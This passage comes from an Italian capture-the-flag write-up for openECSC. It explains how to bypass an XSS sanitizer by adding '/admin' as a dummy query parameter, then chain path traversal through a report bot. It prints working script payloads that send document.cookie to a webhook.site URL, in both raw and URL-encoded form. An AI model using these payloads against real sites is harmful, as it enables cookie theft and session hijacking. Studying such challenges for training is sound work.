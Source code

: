 Mettiamo caso che per qualsiasi motivo, che sia che avete provato ad inserire uno `/admin` nella richiesta come query parameter, o che con l'analisi statica vi siate accorti che c'era qualcosa che non andava nel sanitizer, adesso si sa che basta che `/admin` sia sottostringa dell'URL della richiesta (ricordo ancora una volta: i query parameter fanno parte dell'URL) per fare in modo che il sanitizer ignori qualsiasi tipo di payload XSS venga mandato.

Una cosa molto comoda è che se si decide di inserire un query parameter non utilizzato dal server, questo viene inviato ad esso e semplicemente non viene utilizzato. Questo significa che è possibile mandare un parametro completamente aleatorio che abbia valore `/admin` per poter saltare qualsiasi tipo di sanitizzazione senza dover modificare il payload in qualche modo contorto.

Quindi, se prima in fase di report si mandava `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, adesso si può mandare una cosa simile a `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`. 

Da notare come abbia dovuto usare uno `/admin` per bypassare il filtro durante la comunicazione col bot, e un altro per bypassare il filtro quando si inganna il bot nell'eseguire una ricerca nell'endpoint relativo. 

Naturalmente, avviare una chain (?) del genere significa dover gestire correttamente l'URL encoding per fare in modo che i parametri vengano correttamente sparsi tra la POST che viene fatta all'endpoint di report (al quale verranno mandati i parametri `id` e `message`) e la richiesta che viene eseguita dal bot all'endpoint di ricerca (al quale verranno mandati il parametro necessario `search` e il dummy parameter `lol`).

Una volta applicati gli URL encoding correttamente, il risultato dovrebbe essere questo: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`. 

Non essendo escluso dal filtro, sarà necessario eludere il filtro anche nell'endpoint di report. Per farlo, basta aggiungere un query parameter qualunque col valore `/admin` o `'/admin'` anche nell'URL di report. In Burp Suite, il payload finale sarà:

![Payload finale senza filtro di lunghezza](./media/img/PayloadNoLenght.png)
